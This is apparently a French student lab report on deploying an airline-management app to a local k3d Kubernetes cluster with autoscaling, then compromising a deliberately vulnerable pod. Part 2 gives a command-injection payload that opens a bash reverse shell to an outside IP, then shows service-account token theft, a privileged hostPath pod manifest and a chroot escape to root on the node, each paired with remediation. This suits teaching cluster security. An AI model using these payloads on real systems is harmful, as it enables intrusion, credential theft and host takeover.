




# Rapport TP - Kubernetes & Sécurité

**Auteur :** Alban DAVID - Laurent Boualavong
**Date :** Juin 2026

---

## 0 - Introduction

Ce TP se place dans la continuité du TP Web Services Sécurisés. Après avoir conçu une architecture web complète pour une application de gestion de compagnies aériennes, l'objectif est ici de la conteneuriser et de la déployer sur un cluster Kubernetes, puis d'explorer et d'illustrer plusieurs vecteurs de compromission d'un cluster mal configuré.

---

## Partie 1 - Déploiement sur Kubernetes

### 1 - Conteneurisation des services

Pour déployer l'infrastructure sur Kubernetes, nous devons commencer par créer des `Dockerfile` pour chaque service et un `docker-compose.yml` pour l'architecture globale.

**Dockerfile API (NestJS)** - Build en deux phases : installation des dépendances pnpm puis build TypeScript. Le `nest-cli.json` doit être copié explicitement car NestJS l'exige à la compilation :

```dockerfile
FROM ghcr.io/pnpm/pnpm:11
RUN pnpm runtime set node 22 -g
WORKDIR /app
COPY package.json pnpm-lock.yaml ./
RUN pnpm install --frozen-lockfile --config.dangerouslyAllowAllBuilds=true
COPY tsconfig.json tsconfig.build.json nest-cli.json ./
COPY ./src ./src
RUN pnpm run build
EXPOSE 3000
CMD ["node", "dist/main"]
```

**Dockerfile Frontend (React/Vite)** - Même structure, l'application est servie via `vite preview`. Il est nécessaire d'activer explicitement `host: true` dans `vite.config.js` pour que le serveur soit accessible depuis l'extérieur du conteneur :

```js
preview: { port: 5173, host: true, strictPort: true }
```

**Dockerfile Keycloak** - Basé sur l'image officielle `quay.io/keycloak/keycloak:26.6.3`, avec import automatique du realm au démarrage via la variable `KC_IMPORT`.

Le `docker-compose.yml` déclare les trois services avec le format d'image requis pour la registry du TP :

```yaml
services:
  keycloak:
    image: registry.infres.fr/ema-keycloak
    build: { context: ./keycloak, dockerfile: Dockerfile }
  api:
    image: registry.infres.fr/ema-api
    build: { context: ./api, dockerfile: Dockerfile }
  front:
    image: registry.infres.fr/ema-front
    build: { context: ./front, dockerfile: Dockerfile }
```

---

### 2 - Installation et configuration de k3s / k3d

Le TP ayant été réalisé sur macOS, k3s n'est pas directement disponible. Nous avons utilisé **k3d**, une surcouche de k3s qui fait tourner un cluster k3s dans Docker.

**Installation via Homebrew :**

```bash
brew install k3d
```

**Création du cluster avec exposition des ports HTTP/HTTPS et configuration de la registry :**

```bash
k3d cluster create mon-cluster \
  --port "80:80@loadbalancer" \
  --port "443:443@loadbalancer" \
  --registry-config k3d-registries.yaml
```

Le fichier `k3d-registries.yaml` configure le miroir de registry :

```yaml
mirrors:
  "registry.infres.fr":
    endpoint:
      - "http://registry.infres.fr"
```

**Registry Docker locale** - La registry est déployée sur le cluster via le fichier `DockerRegistry.yaml` (Ingress + Service + Deployment). Le port 5000 étant occupé par AirPlay sur macOS, la registry k3d est exposée sur le port **5001** :

```bash
k3d registry create mon-cluster-registry --port 5001
```

**Configuration insecure registry sur Docker Desktop** - Docker Desktop utilise containerd avec `UseContainerdSnapshotter: true`, ce qui court-circuite le paramètre `insecure-registries` du daemon. Il faut écrire directement le fichier `hosts.toml` dans la VM Docker Desktop via un conteneur privilégié :

```bash
docker run --rm --privileged --pid=host alpine nsenter -t 1 -m -u -n -i -- sh -c \
  'mkdir -p /etc/containerd/certs.d/registry.infres.fr && \
   printf "server = \"http://registry.infres.fr\"\n\n[host.\"http://registry.infres.fr\"]\n  capabilities = [\"pull\", \"resolve\", \"push\"]\n" \
   > /etc/containerd/certs.d/registry.infres.fr/hosts.toml'
```

---

### 3 - Build et push des images vers la registry

**Build de toutes les images :**

```bash
docker compose build
```

**Résolution DNS** - La registry `registry.infres.fr` doit pointer vers la machine locale. Dans `/etc/hosts` :

```
127.0.0.1  registry.infres.fr
```

**Push des images :**

```bash
docker push registry.infres.fr/ema-keycloak
docker push registry.infres.fr/ema-api
docker push registry.infres.fr/ema-front
```

**Vérification des images disponibles dans la registry :**

```bash
curl http://registry.infres.fr/v2/_catalog
# {"repositories":["ema-api","ema-front","ema-keycloak"]}
```

---

### 4 - Déploiement des services sur Kubernetes

Chaque service dispose d'un manifeste YAML dans le dossier `k8s/`, regroupant un **Ingress**, un **Service** et un **Deployment** :

| Service | Fichier | Port | Host Ingress |
|---|---|---|---|
| API NestJS | `k8s/ema-api.yaml` | 3000 | `ema-api.infres.fr` |
| Frontend React | `k8s/ema-front.yaml` | 5173 | `ema-front.infres.fr` |
| Keycloak | `k8s/ema-keycloak.yaml` | 8080 | `ema-keycloak.infres.fr` |

**Déploiement :**

```bash
kubectl apply -f k8s/ema-keycloak.yaml
kubectl apply -f k8s/ema-api.yaml
kubectl apply -f k8s/ema-front.yaml
```

**Vérification :**

```bash
kubectl get pods
# NAME                            READY   STATUS    RESTARTS   AGE
# ema-api-xxxx                    1/1     Running   0          2m
# ema-front-xxxx                  1/1     Running   0          2m
# ema-keycloak-xxxx               1/1     Running   0          3m

kubectl get ingress
# NAME                   CLASS   HOSTS                    ADDRESS     PORTS
# ema-api-ingress        <none>  ema-api.infres.fr        172.x.x.x   80
# ema-front-ingress      <none>  ema-front.infres.fr      172.x.x.x   80
# ema-keycloak-ingress   <none>  ema-keycloak.infres.fr   172.x.x.x   80
```

Les variables d'environnement `KEYCLOAK_URL` et `KEYCLOAK_REALM` sont injectées dans le Deployment de l'API via le champ `env` du manifeste pour pointer vers le service Keycloak interne (`http://ema-keycloak-service:8080`).

---

### 5 - Mise à l'échelle automatique avec HPA

Un **HorizontalPodAutoscaler** (HPA) est créé pour chaque service avec la version `autoscaling/v2` (la version `v2beta2` étant dépréciée depuis Kubernetes 1.26) :

```yaml
apiVersion: autoscaling/v2
kind: HorizontalPodAutoscaler
metadata:
  name: ema-api-hpa
spec:
  scaleTargetRef:
    apiVersion: apps/v1
    kind: Deployment
    name: ema-api
  minReplicas: 2
  maxReplicas: 4
  metrics:
    - type: Resource
      resource:
        name: cpu
        target:
          type: Utilization
          averageUtilization: 80
    - type: Resource
      resource:
        name: memory
        target:
          type: Utilization
          averageUtilization: 80
```

**Déploiement des HPAs :**

```bash
kubectl apply -f k8s/ema-api-hpa.yaml
kubectl apply -f k8s/ema-front-hpa.yaml
kubectl apply -f k8s/ema-keycloak-hpa.yaml
```

**Test de stress CPU** - Pour valider le déclenchement du scale-up, on exécute une boucle CPU intensive directement dans un pod API :

```bash
kubectl exec -it <pod-api> -- node -e \
  "const end=Date.now()+120000; while(Date.now()<end){Math.sqrt(Math.random());}"
```

**Observation du scale-up en temps réel :**

```bash
kubectl get hpa ema-api-hpa --watch
# NAME          REFERENCE            TARGETS         MINPODS   MAXPODS   REPLICAS
# ema-api-hpa   Deployment/ema-api   12%/80%         2         4         2
# ema-api-hpa   Deployment/ema-api   95%/80%         2         4         2
# ema-api-hpa   Deployment/ema-api   95%/80%         2         4         4    ← scale-up déclenché
```

Le HPA a bien augmenté le nombre de replicas de **2 à 4** une fois le seuil de 80% de CPU dépassé, puis est revenu à 2 à la fin de la charge.

---

## Partie 2 - Sécurité Kubernetes

### 1 - Installation du workload vulnérable

Après avoir suivi les instructions d'installation de **Vulnnode**, on obtient un pod dans lequel une page web est accessible via `http://vulnnode.infres.fr/lookup.html`. Cette page contient un formulaire de **DNS lookup**, qui est une commande Linux permettant de traduire une URL saisie en adresse IP.

```bash
kubectl apply -f vulnnode.yaml
kubectl get pods -n vulnnode
```

---

### 2 - Entrer dans un pod en exploitant une vulnérabilité

On remarque que le formulaire de DNS lookup ne contient **aucune validation des entrées**. L'application invoque directement un shell système avec la valeur saisie par l'utilisateur, permettant l'injection de métacaractères (`;`, `|`, `&`).

**Objectif :** obtenir un reverse shell - c'est-à-dire faire en sorte que le pod se connecte vers notre machine et nous donne accès à son terminal, sans que nous ayons à initier la connexion depuis l'extérieur du cluster.

**Écoute sur la machine attaquante :**

```bash
nc -lk 9001
```

**Payload injecté dans le formulaire :**

```
google.com; bash -i >& /dev/tcp/159.31.67.243/9001 0>&1
```

Cette commande exécute d'abord le nslookup légitime pour `google.com`, puis (`; `) redirige le shell bash interactif (`bash -i`) vers le socket TCP ouvert sur le port 9001 de notre machine (`159.31.67.243`). La connexion entrante dans `nc` ouvre alors un terminal bash à l'intérieur du pod.



**Cause racine et remédiation :** la vulnérabilité provient de l'invocation d'un shell système avec une entrée utilisateur non filtrée. La solution consiste à supprimer tout appel shell au profit d'un appel direct au binaire avec arguments séparés (`subprocess.run([...], shell=False)`, `execFile()`) ou idéalement d'une bibliothèque de résolution DNS native de la plateforme.

---

### 3 - Trouver des credentials pour un mouvement latéral

Une fois connecté dans le pod via le reverse shell, on peut explorer l'environnement. Kubernetes monte automatiquement un **service account token** dans chaque pod à l'emplacement suivant :

```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token
# eyJhbGciOiJSUzI1NiIsImtpZCI6...
```

On récupère également le certificat CA et l'adresse du serveur API Kubernetes depuis les variables d'environnement et les fichiers du service account :

```bash
env | grep KUBERNETES
# KUBERNETES_SERVICE_HOST=10.96.0.1
# KUBERNETES_SERVICE_PORT=443

TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

On installe `kubectl` dans le pod et on l'utilise avec le token du service account pour interroger le cluster :

```bash
# Téléchargement de kubectl dans le pod
curl -LO https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl
chmod +x kubectl

# Requête sur l'API Kubernetes avec le token du service account
./kubectl --token=$TOKEN \
  --server=https://kubernetes.default.svc \
  --certificate-authority=$CACERT \
  get pods --all-namespaces
```

Si le service account possède des droits RBAC trop larges (ClusterRole avec des permissions excessives), on peut lister et interagir avec des ressources de l'ensemble du cluster, voire créer de nouveaux pods - ce qui est la porte d'entrée vers l'étape suivante.



---

### 4 - Escalade de privilèges

On constate que le service account du pod vulnnode dispose des droits nécessaires pour **créer des pods**. On exploite cette permission pour déployer un pod disposant de tous les droits sur le nœud hôte :

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: priv-pod
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: priv
    image: alpine
    command: ["/bin/sh", "-c", "sleep infinity"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
```

```bash
./kubectl --token=$TOKEN \
  --server=https://kubernetes.default.svc \
  --certificate-authority=$CACERT \
  apply -f priv-pod.yaml
```



Ce pod est **privilégié** (`securityContext.privileged: true`) et monte le **système de fichiers racine du nœud** hôte dans `/host`. Il partage également les namespaces réseau, PID et IPC du nœud.

**Remédiation :** pour éviter ce type d'escalade, il faut :
- Appliquer les **Pod Security Standards** avec le profil `restricted` (`PodSecurityAdmission`) pour interdire les pods privilégiés
- Restreindre les droits RBAC du service account au strict minimum (principe de moindre privilège) - aucun workload ne devrait avoir le droit de créer des pods en dehors d'un opérateur dédié
- Utiliser des **NetworkPolicies** pour limiter les communications sortantes des pods vers Internet

---

### 5 - Se connecter au nœud avec l'utilisateur root

Une fois le pod privilégié créé et en cours d'exécution, on s'y connecte depuis la machine attaquante (ou depuis le shell du pod vulnnode) :

```bash
kubectl exec -it priv-pod -- /bin/sh
```

À l'intérieur du pod, le système de fichiers du nœud hôte est monté dans `/host`. On utilise **`chroot`** pour changer la racine du processus vers ce système de fichiers, obtenant ainsi un shell avec les droits root **sur le nœud k3s lui-même** :

```sh
chroot /host /bin/bash
```

On est désormais root sur le nœud physique. On peut par exemple lire les fichiers de configuration du cluster, les secrets Kubernetes stockés en clair sur le disque, ou modifier des composants système :

```bash
# Vérification : on est bien root sur le nœud hôte
id
# uid=0(root) gid=0(root) groups=0(root)

hostname
# k3d-mon-cluster-server-0

# Accès aux secrets Kubernetes sur le nœud (si etcd non chiffré)
ls /host/var/lib/rancher/k3s/server/

# Accès aux logs du kubelet
cat /host/var/log/syslog | grep kubelet
```



**Impact :** cette compromission du nœud permet une **évasion du cluster** complète : l'attaquant contrôle l'hôte, peut altérer le kubelet, modifier les manifestes statiques des composants du control plane, et potentiellement compromettre l'ensemble du cluster depuis un seul pod mal sécurisé.

**Remédiation :** les mesures de prévention couvrent toute la chaîne d'attaque :
1. Corriger l'injection de commande dans vulnnode (`shell=False`)
2. Appliquer les **Pod Security Standards** (profil `restricted`) pour interdire les pods privilégiés et les montages `hostPath`
3. Restreindre le RBAC du service account pour supprimer le droit de créer des pods
4. Activer le **chiffrement des secrets etcd** au repos (`EncryptionConfiguration`)
5. Utiliser des **NetworkPolicies** pour bloquer les connexions sortantes non autorisées depuis les pods workloads
